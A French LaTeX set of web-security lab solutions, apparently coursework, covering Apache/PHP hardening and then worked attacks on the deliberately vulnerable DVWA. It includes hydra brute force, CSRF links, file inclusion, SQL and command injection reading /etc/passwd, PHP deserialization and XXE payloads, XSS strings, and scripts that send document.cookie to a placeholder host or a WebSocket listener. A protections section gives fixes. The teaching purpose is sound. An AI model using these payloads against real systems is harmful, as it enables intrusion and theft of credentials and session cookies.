\item Modifiez la configuration d’Apache pour empêcher le listing des répertoires.
\begin{example}
2 possibilités:
\begin{itemize}

\item Désactiver le module responsable du listing des répertoires: \texttt{sudo a2dismod autoindex}

\item Changer la config du site: \texttt{sudo nano 000-default.conf}
\begin{example} \begin{verbatim}
<Directory /var/www/html>
    Options -Indexes
</Directory>
\end{verbatim} \end{example}

\end{itemize}
\end{example}


\item À l’aide de la balise Directory, limitez l’accès de votre application web à un répertoire donné.
\begin{example}

Changer la config du site: \texttt{sudo nano 000-default.conf}
\begin{example} \begin{verbatim}
<Directory /var/www/html/folder1>   # dossier autorisé
    Require all granted
</Directory>
<Directory /var/www/html/folder2>   # dossier interdit
    Require all denied
</Directory>
\end{verbatim} \end{example}
    
\end{example}


\item Ajouter un lien symbolique public.html dans /var/www/html/ qui pointe vers la racine de votre système. À l’aide de cette page, accédez au fichier /etc/passwd depuis votre navigateur.
\begin{example} \begin{enumerate}
    \item Créer le lien symbolique: \texttt{sudo ln -s / /var/www/html/root-link}
    \item Accéder à la page: \texttt{wget -O- "http://localhost/root-link/etc/passwd"}
\end{enumerate} \end{example}


\item Modifiez la configuration d’Apache pour désactiver l’utilisation de liens symboliques avec Apache.
\begin{example}

Changer la config du site: \texttt{sudo nano 000-default.conf}
\begin{example} \begin{verbatim}
<Directory /var/www/html/>
    Options -FollowSymLinks
</Directory>
\end{verbatim} \end{example}

\end{example}


\item Écrivez un script Python qui sera exécuté lorsque la page http:/votresite/test.py est appelée depuis un navigateur. Il sera pour cela nécessaire de modifier la configuration du serveur web.
\begin{example} \begin{enumerate}

\item Installer python: \texttt{sudo apt update \&\& sudo apt install python3 python3-pip}

\item Activer le module CGID: \texttt{sudo a2enmod cgid}

\item Créer le fichier python: \texttt{sudo nano /var/www/html/test.py}
\begin{example} \begin{verbatim}
#!/usr/bin/python3
print('Content-type: text/html')    # header
print('')
print('hello world (from python!)') # content
\end{verbatim} \end{example}

\item Donner la permission d'exécuter le fichier: \texttt{sudo chmod +x test.py} 

\item Changer la config du site: \texttt{sudo nano 000-default.conf}
\begin{example} \begin{verbatim}
<Directory /var/www/html/>
    Options +ExecCGI
    AddHandler cgi-script .py
</Directory>
\end{verbatim} \end{example}

\end{enumerate} \end{example}


\item Une fois testé, modifiez la configuration afin qu’il ne soit absolument impossible d’utiliser cette interface pour votre hôte virtuel.
\begin{example}
2 possibilités:
\begin{itemize}

\item Désactiver le module CGID: \texttt{sudo a2dismod cgid}

\item Changer la config du site: \texttt{sudo nano 000-default.conf}
\begin{example} \begin{verbatim}
<Directory /var/www/html>
    Options -ExecCGI
</Directory>
\end{verbatim} \end{example}

\end{itemize}

\end{example}


\item Modifiez la configuration de PHP afin d’activer la bannière PHP. Vérifiez la version dans le header d’une réponse HTTP (n’oubliez pas de désactiver ce paramètre une fois l’exercice terminé).
\begin{example} \begin{enumerate}
    \item Changer: \texttt{expose\_php = On}, dans: \texttt{/etc/php/<version>/apache2/php.ini}
    \item Redémarrer le service: \texttt{sudo systemctl restart apache2}
\end{enumerate} \end{example}


\item Écrivez un fichier qui va lire le contenu d’une page web (http://www.henallux.be) et qui l’affiche dans votre page web. Ensuite désactivez cette fonctionnalité dans PHP et testez à nouveau.
\begin{example} \begin{enumerate}

\item Installer \& activer le module php d'apache:
\begin{example} \begin{verbatim}
sudo apt install libapache2-mod-php
sudo a2enmod php7.3     # (appuyer sur tab pour que la version s’auto-complète)
\end{verbatim} \end{example}

\item Créer le fichier php: \texttt{sudo nano henallux.php}
\begin{example} \begin{verbatim}
<?php
    echo file_get_contents('http://henallux.be/');
?>
\end{verbatim} \end{example}

\item Obtenir la page: \texttt{wget "http://localhost/henallux.php"}

\item Désactiver la fonctionnalité: \texttt{sudo nano /etc/php/<version>/apache2/php.ini}
\begin{example} \begin{verbatim}
; ajouter la fonction 'file_get_contents' à la liste
disable_functions = ..., file_get_contents
\end{verbatim} \end{example}

\item Tester à nouveau: \texttt{wget "http://localhost/henallux.php"}

\end{enumerate} \end{example}


\item Identifiez une liste de fonctions potentiellement dangereuses en PHP et désactivez-les.
\begin{example}
    \url{https://stackoverflow.com/a/3697776/10524378} (faire comme à l'ex précédent)
\end{example}


\item Testez le paramètre d’upload en créant une page PHP qui autorise l’upload de documents. Ensuite, limiter la taille d'upload et des requêtes POST, ainsi que le temps d'exécution d'un script php (pour limiter les DOS).
\begin{example}
    \begin{enumerate}
        \item Autoriser l'upload de documents: \texttt{sudo nano /etc/php/<version>/apache2/php.ini}
        \begin{example}
            \texttt{file\_uploads = On}
        \end{example}
        \item Créer un dossier pour les uploads: \texttt{sudo mkdir /var/www/html/uploads}
        \item Mettre apache en propriétaire de uploads: \texttt{sudo chown www-data /var/www/html/uploads}
        \item Créer la page d'upload:
\begin{lstlisting}[style=php]
<form method="POST" enctype="multipart/form-data">
    <label> Select the file to upload </label><br>
    <input type="file" name="userfile"><br>
    <input type="submit" value="Upload">
</form>
<?php
    if ($_SERVER["REQUEST_METHOD"] != "POST") { exit(); }
    $file_name = "/var/www/html/uploads/" . $_FILES["userfile"]["name"];
    move_uploaded_file($_FILES["userfile"]["tmp_name"], $file_name);
?>
\end{lstlisting}
        \item Ajouter des limitations: \texttt{sudo nano /etc/php/<version>/apache2/php.ini}
\begin{example} \begin{verbatim}
upload_max_filesize = 2M
post_max_size = 8M
max_execution_time = 5      ; in seconds
\end{verbatim} \end{example}
        \item Redémarrer apache: \texttt{sudo systemctl restart apache2}
        \item Vérification de l'upload: \texttt{http://<ip\_serveur>/uploads/<nom\_fichier>}
    \end{enumerate}
\end{example}


\end{itemize}















\section{Labo 6 -- DVWA (1)}





\begin{itemize}


\item Brute forcing:
\begin{example} \begin{itemize}

\item Commande générale:
\begin{example} \begin{verbatim}
sudo hydra <ip_dvwa> -l <login> -P <fichier_de_mdp> http-get-form
"<path>
:<paramètre>=^USER&<paramètre>=^PASS&<paramètre>:<valeur>
:F=<signe_de_fail>
:H=Cookie:<cookie>=<valeur>;<cookie>=<valeur>"
\end{verbatim} \end{example}

\item Commande utilisée:
\begin{example} \begin{verbatim}
sudo hydra <ip_dvwa> -l admin -P /usr/share/wordlists/most-common.txt http-get-form
"/dvwa/vulnerabilities/brute/
:username=^USER^&password=^PASS^&Login=Login
:F=Username and/or password incorrect.
:H=Cookie: security=low; PHPSESSID=<cookie>"
\end{verbatim} \end{example}

\end{itemize}\end{example}


\item Cookie tampering:
\begin{example} \begin{itemize}
    \item Voler le cookie PHPSESSID d'une autre session.
    \item Si on modifie le cookie, on perd la session.
\end{itemize} \end{example}


\item Session fixation:
\begin{example} \begin{enumerate}
    \item aller sur \texttt{/DVWA/login.php} dans une fenêtre normale et obtenir le cookie phpsessid
    \item se connecter sur \texttt{/DVWA/login.php} dans une fenêtre privée avec le cookie phpsessid
    \item on a accès à la session dans la fenêtre privée
\end{enumerate} \end{example}


\item Weak session ID:
\begin{example}
    Analyse avec le sequencer de burp:
    \begin{itemize}
        \item low: entropie faible ($\implies$ pas aléatoire) -- méthode de génération: \texttt{dvwaSession++}
        \item medium: idem -- méthode de génération: \texttt{secondes\_depuis\_epoch()}
        \item high: entropie élevée ($\implies$ aléatoire) -- méthode de génération: \texttt{md5(session\_id++)}
        \item impossible: idem -- méthode de génération: \texttt{sha1(mt\_rand() . time() . "Impossible")}
    \end{itemize}
\end{example}


\item Missing function level access control:
\begin{example}
    Pages accessibles sans session:
    \begin{itemize}
        \item \texttt{/DVWA/php.ini}
        \item \texttt{/DVWA/config/config.inc.php.dist}
        \item \texttt{/DVWA/.git/config}
        \item (il y en a sans doute d'autres)
    \end{itemize}
    Supprimer la vérification d'autorisation (sur \texttt{index.php}):
    \begin{itemize}
        \item commenter la ligne: \texttt{dvwaPageStartup( array('authenticated','phpids') );}
    \end{itemize}
\end{example}


\item Client caching:
\begin{example} \begin{enumerate}
    \item Modifier les options proxy de burp pour intercepter les réponses du serveur.
    \item Ajouter: \texttt{Cache-Control: immutable}, dans le header.
\end{enumerate} \end{example}


\item Insecure captcha \& insecure direct objet reference:
\begin{example}
    \textcolor{red}{\textbf{Problèmes avec celui-là (on ne l'aura pas à l'exam).}}
\end{example}


\item Session poisoning:
\begin{example} \begin{enumerate}
    \item Modifier la résolution de noms sur la kali: \texttt{sudo nano /etc/hosts}
\begin{example} \begin{verbatim}
<ip_server>     domainA
<ip_server>     domainB
\end{verbatim} \end{example}
    \item Ajouter les dossier pour chaque site:
    \begin{itemize}
        \item \texttt{sudo mkdir /var/www/html/domainA}
        \item \texttt{sudo mkdir /var/www/html/domainB}
    \end{itemize}
    \item Créer le fichier php de domainA: \texttt{sudo nano /var/www/html/domainA/index.php}
\begin{lstlisting}[style=php]
<h1> Welcome to domain A </h1>
<?php
    session_start();

    // Check if the user is authenticated
    if(isset($_SESSION['isLoggedIn']) && $_SESSION['isLoggedIn']) {
        // Already authenticated, proceed.
        echo "<h2> You are authenticated !! ^_^ </h2>";
    } else {
        // Not logged in
        echo "<h2> You need to login to see this website T_T </h2>";
    }
?>
\end{lstlisting}
    \item Créer le fichier php de domainB: \texttt{sudo nano /var/www/html/domainB/index.php}
\begin{lstlisting}[style=php]
<?php
    // Insert your session id.
    session_id('xxx');
    session_start();

    // Spoof a variable
    $_SESSION['isLoggedIn'] = true;
    session_write_close();
?>
\end{lstlisting}
    \item Configurer apache:
    \begin{itemize}
        \item \texttt{cd /etc/apache2/sites-available}
        \item \texttt{sudo cp 000-default.conf domaineA.conf}
        \item \texttt{sudo cp 000-default.conf domaineB.conf}
        \item \texttt{sudo nano domaineA.conf}
\begin{example} \begin{verbatim}
ServerName domainA
DocumentRoot /var/www/html/domainA
\end{verbatim} \end{example}
        \item \texttt{sudo nano domaineB.conf}
\begin{example} \begin{verbatim}
ServerName domainB
DocumentRoot /var/www/html/domainB
\end{verbatim} \end{example}
        \item \texttt{sudo a2ensite domaineA.conf}
        \item \texttt{sudo a2ensite domaineB.conf}
        \item \texttt{sudo systemctl restart apache2}
    \end{itemize}
    \item Vérification:
    \begin{enumerate}
        \item Aller sur: \texttt{http://domainA/}, pour vérifier qu'on n'est pas connecté
        \item Aller sur: \texttt{http://domainB/}, pour modifier les variables de session
        \item Aller sur: \texttt{http://domainA/}, et modifier: \texttt{phpsessid=xxx}, dans le header http, pour vérifier qu'on est bien connecté
    \end{enumerate}
\end{enumerate} \end{example}


\end{itemize}















\section{Labo 7 -- DVWA (2)}





\begin{itemize}


\item URL shortener:
\begin{example} \begin{itemize}
    \item url pour changer de mdp:
\begin{example} \begin{verbatim}
http://192.168.1.13/DVWA/vulnerabilities/csrf/?password_new=tttttt
    &password_conf=tttttt&Change=Change#
\end{verbatim} \end{example}
    \item lien bitly: \texttt{https://bit.ly/3tE2RkW}
    \item cliquer sur \textit{test credentials} (login = admin) pour vérifier que le mdp a bien changé
\end{itemize} \end{example}


\item IMG SRC:
\begin{example} \begin{itemize}
    \item modifier le fichier \textit{index.html} de \texttt{attaque.com}:
\begin{example} \begin{verbatim}
<h1> Welcome ù_ú </h1>
<img src="https://bit.ly/3tE2RkW">
\end{verbatim} \end{example}
    \item aller sur \texttt{attaque.com}
    \item tester le changement de mot de passe
\end{itemize} \end{example}


\item JS onload:
\begin{example} \begin{itemize}
    \item changer le niveau de sécurité à \textit{medium}
    \item créer une nouvelle page dans dvwa: \texttt{sudo nano /var/www/html/DVWA/hack-csrf.html}
\begin{example} \begin{verbatim}
<h1> Hello ù_ù </h1>
<script>
    let url = 'http://192.168.1.13/DVWA/vulnerabilities/csrf/'
            + '?password_new=tttttt&password_conf=tttttt&Change=Change#';
    let xhr = new XMLHttpRequest();     // 1. instantiate the object
    xhr.open('GET', url);               // 2. configure the object
    xhr.send();                         // 3. send the request
</script>
\end{verbatim} \end{example}
    \item aller sur la nouvelle page, puis vérifier le changement de mot de passe
\end{itemize} \end{example}


\item Cross-Domain Scripting:
\begin{example} \begin{itemize}
    \item créer une nouvelle page: \texttt{sudo nano /var/www/html/SOP-01.html}
\begin{example} \begin{verbatim}
<h1> Hello ù_ù </h1>
<script>
    let url = 'http://site.com/';
    let xhr = new XMLHttpRequest();     // 1. instantiate the object
    xhr.open('GET', url);               // 2. configure the object
    xhr.send();                         // 3. send the request
    xhr.onload = function() {
        alert(xhr.response);
    };
</script>
\end{verbatim} \end{example}
    \item aller sur la page \texttt{SOP-01.html}, la restriction SOP devrait empêcher d'afficher le contenu
\end{itemize} \end{example}
\begin{center} 
\includegraphics[width=0.99\linewidth]{images/SOP-01.PNG} \end{center}


\item CORS:
\begin{example} \begin{itemize}
    \item modifier le page: \texttt{sudo nano /var/www/html/sub2.site/index.html}
\begin{example} \begin{verbatim}
<h1> Hello \(O_o)/ </h1>
<script>
    let url = 'http://sub1.site.com/';
    let xhr = new XMLHttpRequest();     // 1. instantiate the object
    xhr.open('GET', url);               // 2. configure the object
    xhr.send();                         // 3. send the request
    xhr.onload = function() {
        alert(xhr.response);
    };
</script>
\end{verbatim} \end{example}
    \item vérifier que le module headers est activé: \texttt{sudo a2enmod headers}
    \item modifier la config de \textit{sub1.site} pour autoriser le CORS dans les sous-domaines: \\
    \texttt{sudo nano /etc/apache2/sites-enabled/sub1.site.conf}
\begin{example} \begin{verbatim}
<IfModule mod_headers.c>
    # attention ! pas de / à la fin de l'url
    Header set Access-Control-Allow-Origin "http://sub2.site.com"
</IfModule>
\end{verbatim} \end{example}
    \item \texttt{sudo systemctl restart apache2}
    \item aller sur la page \texttt{sub2.site.com}
\end{itemize} \end{example}


\item postMessage:
\begin{example} \begin{itemize}
    \item \texttt{sudo nano /var/www/html/sub1.site}
\begin{example} \begin{verbatim}
<h1> Hello ^o^ </h1>
<script>
    var popup = window.open("http://sub2.site.com");
    popup.postMessage("hey", "http://sub2.site.com");
    popup.postMessage("ho ", "http://sub2.site.com");
    window.addEventListener("message", (event) => {
        if (event.origin !== "http://sub2.site.com") { return; }
        console.log( event.data );
    }, false);
</script>
\end{verbatim} \end{example}
    \item \texttt{sudo nano /var/www/html/sub2.site}
\begin{example} \begin{verbatim}
<h1> Hello ^o^ </h1>
<script>
    window.addEventListener("message", (event) => {
        if (event.origin !== "http://sub1.site.com") { return; }
        console.log( event.data );
        event.source.postMessage("hello buddy", event.origin);
    }, false);
</script>
\end{verbatim} \end{example}
    \item aller sur \texttt{sub1.site}
    \item erreur:
    \begin{example}
        Failed to execute ‘postMessage’ on ‘DOMWindow’: The target origin provided (‘http://sub2.site.com’) does not match the recipient window’s origin (‘http://sub1.site.com’).
    \end{example}
\end{itemize} \end{example}


\end{itemize}















\section{Labo 8 -- DVWA (3)}





\begin{itemize}


\item File Inclusion - Tentez d’afficher le contenu de /etc/passwd:
\begin{example}
    Se rendre sur l'url: \texttt{http://10.0.2.16/DVWA/vulnerabilities/fi/?page=/etc/passwd}
\end{example}


\item File Inclusion - Téléchargez un fichier présent sur Internet à l’aide de la page vulnérable:
\begin{example}
    Se rendre sur l'url: \texttt{http://10.0.2.16/DVWA/vulnerabilities/fi/?page=http://google.com/}
\end{example}


\item SQL Injection - Quelle est la différence entre une injection SQL classique et de type blind ?
\begin{example}
    \begin{itemize}
        \item classique = on voit le résultat de la requête SQL
        \item blind = on fait des requêtes dont la réponse est \texttt{[oui/non]} et la réponse est déterminée àpd temps de réponse
    \end{itemize}
\end{example}


\item SQL Injection - Affichez la liste des utilisateurs présents dans la base de données:
\begin{example}
    Injecter: \texttt{' OR 1=1 OR '}
\end{example}


\item File Upload - Ajoutez un fichier PHP qui permet d’exécuter une commande système:
\begin{example} \begin{itemize}
    \item \texttt{sudo chmod 777 /var/www/html/DVWA/hackable/uploads}
    \item uploader le fichier \texttt{passwd.php}:
\begin{lstlisting}[style=php]
<?php
    include("/etc/passwd");
?>
\end{lstlisting}
    \item se rendre sur \texttt{http://10.0.2.16/DVWA/hackable/uploads/passwd.php}
\end{itemize} \end{example}


\item Command Injection - Détournez la page pour afficher le contenu de /etc/passwd:
\begin{example}
    Entrer la commande: \texttt{127.0.0.1; cat /etc/passwd}
\end{example}


\item Command Injection - Essayez d’afficher le contenu de /etc/shadow. Est-ce que cela fonctionne? Pourquoi?
\begin{example} \begin{itemize}
    \item Entrer la commande: \texttt{127.0.0.1; cat /etc/shadow}
    \item Ça ne fonctionne pas car l'utilisateur qui exécute la commande (www-data) n'a pas les privilèges suffisants.
\end{itemize} \end{example}


\item Désérialisation non sécurisée et injection de code - Suivez la première partie de ce tutoriel afin d’afficher le contenu du fichier /etc/passwd en exploitant un objet sérialisé:
\begin{lstlisting}[style=php]
<?php
    class PHPObjectInjection {
        public $inject;
        function __wakeup() {
            if( isset($this->inject) ) {
                eval($this->inject);
            }
        }
    }
    if( isset($_REQUEST['r']) ) {  
        $var1 = unserialize($_REQUEST['r']);
        if( is_array($var1) ) {
            echo "<br/>" . $var1[0] . " - " . $var1[1];
        }
    } else {
        echo ""; # nothing happens here
    }
?>
\end{lstlisting}
\begin{example} \begin{itemize}
\item Première possibilité:
\begin{verbatim}
http://10.0.2.16/code-injection.php?r=
    O:18:"PHPObjectInjection":1:{s:6:"inject";
    s:23:"include('/etc/passwd');";}"
\end{verbatim}
\item Deuxième possibilité:
\begin{verbatim}
http://10.0.2.16/code-injection.php?r=
    O:18:"PHPObjectInjection":1:{s:6:"inject";
    s:26:"system('cat%20/etc/passwd');";}"
\end{verbatim}
\end{itemize} \end{example}


\item Désérialisation non sécurisée et injection de code - Que fait la fonction \texttt{\_{}\_wakeup()} ?
\begin{example}
    La fonction \texttt{\_{}\_wakeup()} est l'équivalent de \texttt{\_{}\_construct()} dans les cas de désérialisation. C'est-à-dire que quand un objet est instantié avec \texttt{unserialize()}, c'est cette fonction qui est appelée.
\end{example}


\item Désérialisation non sécurisée et injection de code - Que fait la fonction \texttt{eval()} ?
\begin{example}
    La fonction \texttt{eval()} sert à évaluer une string comme du code php.
\end{example}


\item Désérialisation non sécurisée et injection de code - Comment interprétez-vous une structure sérialisée?
\begin{example} \begin{itemize}
    \item \texttt{a:2:\{i:0;s:4:"XVWA";i:1;s:33:"Xtreme Vulnerable Web Application";\}}
    \begin{center} \begin{tabular}{|l|l|} \hline
        \textbf{élément} & \textbf{sens} \\ \hline
        \texttt{a} & array \\
        \texttt{2} & 2 éléments \\
        \texttt{i=0} & élément d'index 0 \\
        \texttt{s:4:"XVWA"} & string de longueur 4, "XVWA" \\
        \texttt{i:1} & élément d'index 1 \\
        \texttt{s:33:"Xtreme Vulnerable Web Application"} & string de longueur 33, "Xtreme ..." \\ \hline
    \end{tabular} \end{center}
    \item \texttt{O:18:"PHPObjectInjection":1:\{s:6:"inject";s:17:"system('whoami');";\}}
    \begin{center} \begin{tabular}{|l|l|} \hline
        \textbf{élément} & \textbf{sens} \\ \hline
        \texttt{O:18:"PHPObjectInjection"} & objet, nom de longueur 18, "PHPObjectInjection" \\
        \texttt{1} & un seul objet \\
        \texttt{s:6:"inject"} & string de longueur 6, "inject" \\
        \texttt{s:17:"system('whoami');"} & string de longueur 17, "system('whoami');" \\ \hline
    \end{tabular} \end{center}
\end{itemize} \end{example}


\item Injection XML - Afficher le contenu de /etc/passwd:
\begin{lstlisting}[style=php]
<?php
    libxml_disable_entity_loader(false);
    $xmlfile = $_GET["xml"];

    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);

    $creds = simplexml_import_dom($dom);
    $user = $creds->user;
    $pass = $creds->pass;

    echo "You have logged in as user $user";
?>
\end{lstlisting}
Fichier XML (le fichier php se trouve dans /var/www/html, d'où le ../../..):
\begin{example} \begin{verbatim}
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
    <!ELEMENT foo ANY>
    <!ENTITY xxe SYSTEM "../../../etc/passwd">
]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
\end{verbatim} \end{example}
\textbf{Remarques}:
\begin{itemize}
    \item il faut encoder le payload au format url (\url{https://www.url-encode-decode.com/})
    \item on peut aussi utilise ce chemin: \texttt{file:///etc/passwd}
    \item pour des fichiers php, on utilise: \texttt{php://filter/convert.base64-encode/resource=<config>.php}
    \item aller sur le lien: \texttt{http://<site>/<page>?wml=<payload>}
\end{itemize}


\item Protections:
\begin{example} \begin{itemize}

\item File Inclusion - Utiliser une whitelist des fichiers qui peuvent être inclus.
\begin{lstlisting}[style=php]
if ($file != "file1.php" && $file != "file2.php") {
    // print error
    exit;
}
\end{lstlisting}

\item SQL Injection - Vérifier les inputs.
\begin{lstlisting}[style=php]
if( !is_numeric($id) ) {
    // print error
    exit;
}
\end{lstlisting}

\item File Upload - Vérifier les inputs et supprimer les vulnérabilités.
\begin{enumerate}
    \item vérifier l'extension
    \item vérifier le type mime de l'image
    \item supprimer les métadonnées en ré-encodant l'image
\begin{lstlisting}[style=php]
if ( $uploaded_type == 'image/jpeg' ) {
    $img = imagecreatefromjpeg( $uploaded_tmp );
    imagejpeg( $img, $temp_file, 100);
} else {
    $img = imagecreatefrompng( $uploaded_tmp );
    imagepng( $img, $temp_file, 9);
}
\end{lstlisting}
\end{enumerate}

\item Command Injection - Vérifier les inputs.
\begin{lstlisting}[style=php]
$octets = explode(".", $target);
if( !is_numeric($octets[0]) || !is_numeric($octet[1]) || ...) {
    // print error
    exit;
}
\end{lstlisting}

\item Désérialisation non sécurisée - Utiliser une whitelist.
\begin{lstlisting}[style=php]
// uniquement des scalaires
$object = unserialize($data, ['allowed_classes' => false]);
// whitelist
$object = unserialize($data, ['allowed_classes' => $whitelist]);
\end{lstlisting}

\item Injection XML - Désactiver le module \texttt{entity\_loader}.
\begin{lstlisting}[style=php]
// bloque les attaques XXE
libxml_disable_entity_loader(true);
\end{lstlisting}

\end{itemize} \end{example}


\end{itemize}















\section{Labo 9 -- XSS}





\begin{itemize}


\item DOM XSS:
\begin{example} \begin{itemize}
    \item easy, url = \texttt{http://10.0.2.16/DVWA/vulnerabilities/xss\_d/?default=} \\
    \texttt{<script>alert(document.cookie);</script>}
    \item medium, url = \texttt{http://10.0.2.16/DVWA/vulnerabilities/xss\_d/?default=} \\
    \texttt{</select><input type="button" value="attack" onclick="alert(document.cookie);"/>}
    \item hard, url (1) = \texttt{http://10.0.2.16/DVWA/vulnerabilities/xss\_d/?default=} \\
    \texttt{English\&</select><input type="button" value="x" onclick="alert(document.cookie);"/>}
    \item hard, url (2) = \texttt{http://10.0.2.16/DVWA/vulnerabilities/xss\_d/?default=} \\
    \texttt{English\&</select><script>alert(document.cookie);</script>}
\end{itemize} \end{example}


\item Reflected XSS:
\begin{example} \begin{itemize}
    \item easy, input = \texttt{<script>alert(document.cookie);</script>}
    \item medium, input = \texttt{<input type="button" value="x" onclick="alert(document.cookie)"/>}
    \item hard, input = \texttt{<input type="button" value="x" onclick="alert(document.cookie)"/>}
    \item \textcolor{red}{\textbf{Input cool}}:
    \begin{example}
        \texttt{<img src="http://url.to.file.which/not.exist" onerror=alert(document.cookie);>}
    \end{example}
\end{itemize} \end{example}


\item Stored XSS:
\begin{example} \begin{itemize}
    \item easy, message = \texttt{<script>alert(document.cookie);</script>}
    \item medium, name = \texttt{<img src="greg" onerror=alert(document.cookie);>}
    \item hard, name = \texttt{<img src="greg" onerror=alert(document.cookie);>}
\end{itemize} \end{example}
\textbf{Remarque}: pour pouvoir mettre plus de caractères dans le nom, il faut éditer le code html.


\item Vol de cookie:
\begin{example}
    Oui, on peut récupérer des cookies avec ce genre de script:
    \begin{example}
        \texttt{<script>document.location='http://<site>/?c='+document.cookie</script>}
    \end{example}
    Sur le serveur, on peut:
    \begin{itemize}
        \item valider les entrées
        \item encoder les sorties (ex: < devient \&lt;)
    \end{itemize}
\end{example}


\item HTML5 Socket:
\begin{example} \begin{itemize}

\item Script javascript websocket pour envoyer les cookies à une machine distante:
\begin{lstlisting}[style=javascript]
<script> var ws = new WebSocket("ws://localhost:8000/ws"); </script>
<button value="x" onclick="ws.send(document.cookie);">
\end{lstlisting}

\item Installation de fastapi: \texttt{pip3 install fastapi \&\& sudo apt install uvicorn}

\item Code python:

\item Script pour écouter en local:
\begin{example} \begin{verbatim}
from fastapi import FastAPI, WebSocket

app = FastAPI()

@app.websocket("/ws")
async def websocket_endpoint(websocket: WebSocket):
    await websocket.accept()
    while True:
        data = await websocket.receive_text()
        print(f"Cookies are: {data}")
\end{verbatim} \end{example}

\item Lancer le serveur: \texttt{uvicorn websocket:app -{}-reload}

\end{itemize} \end{example}


\end{itemize}




















\newpage \tableofcontents




















\end{document}
